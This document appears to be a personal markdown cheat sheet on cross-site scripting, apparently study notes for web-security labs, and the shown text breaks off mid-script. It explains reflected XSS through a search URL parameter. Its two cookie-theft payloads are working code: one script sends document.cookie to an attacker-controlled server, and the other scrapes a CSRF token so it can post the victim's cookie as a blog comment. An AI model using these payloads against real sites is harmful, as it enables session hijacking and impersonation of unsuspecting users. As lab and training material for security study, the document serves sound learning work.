 Cross-site scripting cheat sheet:
```
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
```

### General tip:
Sometimes these may work **ONLY** if you URL encode the payload in burp

### XSS via req param:
Suppose a website has a search function which receives the user-supplied search term in a URL parameter:
```
https://insecure-website.com/search?term=gift
```
The application echoes the supplied search term in the response to this URL:
```
<p>You searched for: gift</p>
```
Assuming the application doesn't perform any other processing of the data, an attacker can construct an attack like this:
```
https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>
```
This URL results in the following response:
```
<p>You searched for: <script>/* Bad stuff here... */</script></p>
```

### Exploiting cross-site scripting to steal cookies
You can exploit cross-site scripting vulnerabilities to send the victim's cookies to your own domain, then manually inject the cookies into the browser and impersonate the victim.

First solution (make user to make a req to your own server, either by making him click on some link on by storing script in the database and then all the users will see this on the html page):
```bash
<script>
fetch('https://your-own-server.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

Second solution (create a public blog comment with their cookie)
```bash
<script>
    let postId = 1
    fetch(`/post?postId=${postId}`)
    .then((res) => {
        return res.text()
    })
    .then((res2) => {
        const csrfLength = 32;
        const pattern = '<input required type="hidden" name="csrf" value="';
        const indexStart = res2.lastIndexOf(pattern);

        const start = indexStart + pattern.length
        const end = start + csrfLength
        const csrf = res2.slice(start, end)

        fetch('/post/comment', {
            method: "POST",
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded',
            },
```